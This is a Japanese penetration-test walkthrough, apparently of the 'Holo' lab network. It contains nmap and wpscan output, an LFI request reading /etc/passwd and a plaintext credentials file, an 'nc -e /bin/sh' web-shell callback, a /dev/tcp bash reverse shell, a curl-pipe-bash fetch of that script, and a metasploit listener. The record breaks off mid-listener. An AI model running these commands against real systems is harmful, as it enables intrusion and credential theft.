

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | 記録なし |
| 攻撃対象 | 22/tcp on 10.200.107.250, 22/tcp on 10.200.107.33, 80/tcp on 10.200.107.33, 22/tcp open  ssh, 80/tcp open  http, 22/tcp    open     ssh |
| 主な侵入経路 | brute-force, sqli, lfi |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)


## Nmap
```bash
✅[CPU:1][MEM:24][IP:10.50.103.3]/home/n0z0 🐉 sudo nmap -sn -n 10.200.107.0/24 192.168.127.0/24 -oA Ping-Sweep
✅[CPU:1][MEM:24][IP:10.50.103.3]/home/n0z0 🐉 sudo nmap -sn -n 10.200.107.0/24 192.168.127.0/24 -oA Ping-Sweep
[sudo] password for n0z0:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 00:29 JST
Nmap scan report for 10.200.107.33
Host is up (0.25s latency).
Nmap scan report for 10.200.107.250
Host is up (0.25s latency).
Nmap scan report for 192.168.127.1
Host is up (0.00088s latency).
MAC Address: 5A:94:EF:E4:0C:DD (Unknown)
Nmap scan report for 192.168.127.254
Host is up (0.00072s latency).
MAC Address: 5A:94:EF:E4:0C:DD (Unknown)
Nmap scan report for 192.168.127.2
Host is up.
Nmap done: 512 IP addresses (5 hosts up) scanned in 19.32 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

VPNに接続後何個かのIPが付与されたこと確認した

```
✅[CPU:1][MEM:24][IP:10.50.103.3]/home/n0z0 🐉 route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         192.168.127.1   0.0.0.0         UG    0      0        0 wsltap
10.50.103.0     0.0.0.0         255.255.255.0   U     0      0        0 tun0
10.200.107.0    10.50.103.1     255.255.255.0   UG    1000   0        0 tun0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 docker0
172.30.0.0      0.0.0.0         255.255.240.0   U     0      0        0 eth0
192.168.127.0   0.0.0.0         255.255.255.0   U     0      0        0 wsltap
```

それぞれスィーピングしてみる

```bash
✅[CPU:1][MEM:24][IP:10.50.103.3]/home/n0z0 🐉 sudo nmap -sn -n 10.200.107.0/24 192.168.127.0/24 -oA Ping-Sweep
[sudo] password for n0z0:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 00:29 JST
Nmap scan report for 10.200.107.33
Host is up (0.25s latency).
Nmap scan report for 10.200.107.250
Host is up (0.25s latency).
Nmap scan report for 192.168.127.1
Host is up (0.00088s latency).
MAC Address: 5A:94:EF:E4:0C:DD (Unknown)
Nmap scan report for 192.168.127.254
Host is up (0.00072s latency).
MAC Address: 5A:94:EF:E4:0C:DD (Unknown)
Nmap scan report for 192.168.127.2
Host is up.
Nmap done: 512 IP addresses (5 hosts up) scanned in 19.32 seconds
```

下記のIPがヒットした

10.200.107.33

10.200.107.250

```bash
✅[CPU:0][MEM:25][IP:10.50.103.3]/home/n0z0 🐉 sudo nmap -sS 10.200.107.33 10.200.107.250 -v -oA Initial-Scan-Subnet1-Hosts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 00:44 JST
Initiating Ping Scan at 00:44
Scanning 2 hosts [4 ports/host]
Completed Ping Scan at 00:44, 0.29s elapsed (2 total hosts)
Initiating Parallel DNS resolution of 2 hosts. at 00:44
Completed Parallel DNS resolution of 2 hosts. at 00:44, 13.00s elapsed
Initiating SYN Stealth Scan at 00:44
Scanning 2 hosts [1000 ports/host]
Discovered open port 22/tcp on 10.200.107.250
Discovered open port 22/tcp on 10.200.107.33
Discovered open port 80/tcp on 10.200.107.33
Completed SYN Stealth Scan against 10.200.107.33 in 5.94s (1 host left)
Completed SYN Stealth Scan at 00:44, 7.24s elapsed (2000 total ports)
Nmap scan report for 10.200.107.33
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 10.200.107.250
Host is up (0.25s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh

Read data files from: /usr/bin/../share/nmap
Nmap done: 2 IP addresses (2 hosts up) scanned in 20.74 seconds
           Raw packets sent: 2013 (88.524KB) | Rcvd: 2039 (81.608KB)
```

10.200.107.33は80と22が開いてる

10.200.107.250は80だけ開いてた

脆弱性含めてスキャンしたら

```bash
✅[1:32][CPU:2][MEM:26][IP:10.50.103.3][/home/n0z0]
🐉 > nmap -p- -sC -sV --script vuln -T4 $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 01:32 JST
Warning: 10.200.107.33 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.200.107.33
Host is up (0.25s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|       CVE-2023-38408  9.8     https://vulners.com/cve/CVE-2023-38408
|       B8190CDB-3EB9-5631-9828-8064A1575B23    9.8     https://vulners.com/githubexploit/B8190CDB-3EB9-5631-9828-8064A1575B23        *EXPLOIT*
|       8FC9C5AB-3968-5F3C-825E-E8DB5379A623    9.8     https://vulners.com/githubexploit/8FC9C5AB-3968-5F3C-825E-E8DB5379A623        *EXPLOIT*
|       8AD01159-548E-546E-AA87-2DE89F3927EC    9.8     https://vulners.com/githubexploit/8AD01159-548E-546E-AA87-2DE89F3927EC        *EXPLOIT*
|       5E6968B4-DBD6-57FA-BF6E-D9B2219DB27A    9.8     https://vulners.com/githubexploit/5E6968B4-DBD6-57FA-BF6E-D9B2219DB27A        *EXPLOIT*
|       CVE-2020-15778  7.8     https://vulners.com/cve/CVE-2020-15778
|       SSV:92579       7.5     https://vulners.com/seebug/SSV:92579    *EXPLOIT*
|       PACKETSTORM:173661      7.5     https://vulners.com/packetstorm/PACKETSTORM:173661      *EXPLOIT*
|       F0979183-AE88-53B4-86CF-3AF0523F3807    7.5     https://vulners.com/githubexploit/F0979183-AE88-53B4-86CF-3AF0523F3807        *EXPLOIT*
|       CVE-2020-12062  7.5     https://vulners.com/cve/CVE-2020-12062
|       1337DAY-ID-26576        7.5     https://vulners.com/zdt/1337DAY-ID-26576        *EXPLOIT*
|       CVE-2021-28041  7.1     https://vulners.com/cve/CVE-2021-28041
|       CVE-2021-41617  7.0     https://vulners.com/cve/CVE-2021-41617
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3        *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207        *EXPLOIT*
|       CVE-2023-51385  6.5     https://vulners.com/cve/CVE-2023-51385
|       CVE-2023-48795  5.9     https://vulners.com/cve/CVE-2023-48795
|       CVE-2020-14145  5.9     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  5.3     https://vulners.com/cve/CVE-2016-20012
|       CVE-2021-36368  3.7     https://vulners.com/cve/CVE-2021-36368
|_      PACKETSTORM:140261      0.0     https://vulners.com/packetstorm/PACKETSTORM:140261      *EXPLOIT*
80/tcp    open     http?
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.200.107.33
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.200.107.33:80/
|     Form id:
|_    Form action: http://www.holo.live/
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
6940/tcp  filtered unknown
14927/tcp filtered unknown
19424/tcp filtered unknown
22955/tcp filtered unknown
30333/tcp filtered unknown
33060/tcp open     mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
37890/tcp filtered unknown
38897/tcp filtered unknown
43084/tcp filtered unknown
44844/tcp filtered unknown
48491/tcp filtered unknown
60280/tcp filtered unknown
61015/tcp filtered unknown
62218/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=9/29%Time=66F83450%P=x86_64-pc-linux-gnu%
SF:r(NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTT
SF:POptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\
SF:x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSV
SF:ersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTC
SF:P,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\
SF:0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\
SF:x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCoo
SF:kie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messag
SF:e\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNe
SF:g,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05
SF:HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDStri
SF:ng,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message
SF:\"\x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOpti
SF:ons,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05
SF:\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY
SF:000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\
SF:0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
SF:)%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message
SF:\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1391.48 seconds
```

wordpressを使ってることが分かった

```bash
❌[2:09][CPU:4][MEM:32][IP:10.50.103.3][/home/n0z0]
🐉 > sudo nmap -sV -sC -A $ip -p 22,80,33060 -oA $ip-Script-Scan
[sudo] password for n0z0:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 02:09 JST
Nmap scan report for www.holo.live (10.200.107.33)
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e9:6f:2e:a7:af:42:f8:0d:d6:09:71:01:25:48:ea:30 (RSA)
|   256 26:c8:d1:38:41:a8:ab:93:34:35:44:43:bb:ba:a3:63 (ECDSA)
|_  256 0d:ce:93:68:d2:9b:c5:ff:30:f3:df:1f:33:7a:34:87 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29
|_http-title: holo.live
| http-robots.txt: 21 disallowed entries (15 shown)
| /var/www/wordpress/index.php
| /var/www/wordpress/readme.html /var/www/wordpress/wp-activate.php
| /var/www/wordpress/wp-blog-header.php /var/www/wordpress/wp-config.php
| /var/www/wordpress/wp-content /var/www/wordpress/wp-includes
| /var/www/wordpress/wp-load.php /var/www/wordpress/wp-mail.php
| /var/www/wordpress/wp-signup.php /var/www/wordpress/xmlrpc.php
| /var/www/wordpress/license.txt /var/www/wordpress/upgrade
|_/var/www/wordpress/wp-admin /var/www/wordpress/wp-comments-post.php
|_http-generator: WordPress 5.5.3
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=9/29%Time=66F83862%P=x86_64-pc-linux-gnu%
SF:r(NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTT
SF:POptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\
SF:x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSV
SF:ersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTC
SF:P,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\
SF:0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\
SF:x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCoo
SF:kie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messag
SF:e\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNe
SF:g,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05
SF:HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDStri
SF:ng,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message
SF:\"\x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOpti
SF:ons,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05
SF:\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY
SF:000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\
SF:0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
SF:)%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message
SF:\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running (JUST GUESSING): Linux 2.4.X (91%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.20
Aggressive OS guesses: Tomato 1.28 (Linux 2.4.20) (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   247.01 ms 10.50.103.1
2   247.81 ms www.holo.live (10.200.107.33)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.52 seconds
```

10.200.107.250はsshが22で空いてる

```bash
❌[2:11][CPU:4][MEM:33][IP:10.50.103.3][/home/n0z0]
🐉 > sudo nmap -sV -sC -A 10.200.107.250 -p 22,80,33060 -oA $10.200.107.250-Script-Scan
[sudo] password for n0z0:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-29 02:18 JST
Nmap scan report for 10.200.107.250
Host is up (0.25s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a4:ed:89:0f:d5:c5:f0:2f:37:df:9e:a1:24:d4:1a:d4 (RSA)
|   256 78:eb:8b:29:86:8c:a2:c4:6a:fd:35:41:0e:57:f9:70 (ECDSA)
|_  256 4e:48:a3:37:77:b3:df:ec:5a:e7:d6:34:82:89:01:b9 (ED25519)
80/tcp    closed http
33060/tcp closed mysqlx
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=9/29%OT=22%CT=80%CU=44751%PV=Y%DS=1%DC=T%G=Y%TM=66F
OS:83A85%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A
OS:)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M50
OS:9ST11NW7%O6=M509ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   245.56 ms 10.200.107.250

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.78 seconds
```

Wordpress使ってそう。
脆弱性は見つかった

```bash
❌[1:31][CPU:2][MEM:26][IP:10.50.103.3][/home/n0z0/tools]
🐉 wpscan --url http://10.200.107.33 --enumerate vp --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.200.107.33/ [10.200.107.33]
[+] Started: Sun Sep 29 01:32:06 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.29 (Ubuntu)
 |  - X-UA-Compatible: IE=edge
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.200.107.33/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.200.107.33/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.200.107.33/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.200.107.33/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5.3 identified (Insecure, released on 2020-10-30).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.200.107.33/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.3'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.200.107.33/, Match: 'WordPress 5.5.3'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <========================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.200.107.33/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Sep 29 01:32:14 2024
[+] Requests Done: 25
[+] Cached Requests: 31
[+] Data Sent: 5.235 KB
[+] Data Received: 135.669 KB
[+] Memory used: 149.227 MB
[+] Elapsed time: 00:00:07
```

https://www.exploit-db.com/exploits/39521


*Caption: Screenshot captured during holo attack workflow (step 1).*

LFIする

```
http://dev.holo.live/img.php?file=../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
http://dev.holo.live/img.php?file=/var/www/admin/supersecretdir/creds.txt
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```

catコマンドを自動で実行してくれそうなphpが記載されてた


*Caption: Screenshot captured during holo attack workflow (step 2).*

リバースシェルが刺さった

```
http://admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh%2010.50.103.3%203333
```

気になるファイルは一通り見てみる

```bash
www-data@be40667ddc89:/var/www/admin$ cat db_connect.php
cat db_connect.php
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
www-data@be40667ddc89:/var/www/admin$
```

ピボットホストからdockerマシンに対してポートスキャンをしてみる

```
www-data@be40667ddc89:/var/www/admin$ route
route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         ip-192-168-100- 0.0.0.0         UG    0      0        0 eth0
192.168.100.0   0.0.0.0         255.255.255.0   U     0      0        0 eth0
```

デフォルトゲートウェイには通った

```bash
www-data@be40667ddc89:/var$ nc -zv 192.168.100.1 1-65535
nc -zv 192.168.100.1 1-65535
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 33060 (?) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```

dockerマシンにはこんな感じ

```bash
www-data@be40667ddc89:/var/www/admin$ nc -zv 192.168.100.100 1-65535
nc -zv 192.168.100.100 1-65535
be40667ddc89 [192.168.100.100] 42968 (?) open
be40667ddc89 [192.168.100.100] 35302 (?) open
be40667ddc89 [192.168.100.100] 80 (http) open
```

dockerの侵害のチートシート

https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html

リバースシェル用シェルを作っておく

```bash
✅[16:39][CPU:1][MEM:41][IP:10.50.103.3][/home/n0z0/tools/linux]
🐉 > cat bash.sh
#!/bin/bash
bash -i >& /dev/tcp/10.50.103.3/53 0>&1
```

サーバモードで起動しておく

```bash
✅[16:21][CPU:1][MEM:36][IP:10.50.103.3][/home/n0z0/tools/linux]
🐉 > python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.107.33 - - [29/Sep/2024 16:24:16] "GET /bash.sh HTTP/1.1" 200 -
```

攻撃用サーバからkaliに対してリバースシェル用シェルを取りに行き実行する

```bash
curl 192.168.100.1:8080/hax.php?cmd=curl%20http%3A%2F%2F10.50.103.3%3A80%2Fbash.sh%7Cbash%20%26
www-data@8185415feb5e:/var/www/admin$ curl 192.168.100.1:8080/hax.php?cmd=curl%20http%3A%2F%2F10.50.103.3%3A80%2Fbash.sh%7Cbash%20%26
<ttp%3A%2F%2F10.50.103.3%3A80%2Fbash.sh%7Cbash%20%26
```

metasploitでリバースシェルを待ち受ける

```
msfconsole
use multi/handler
set LHOST tun0
set LPORT 53
run
```

接続できた

```
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 53
LPORT => 53
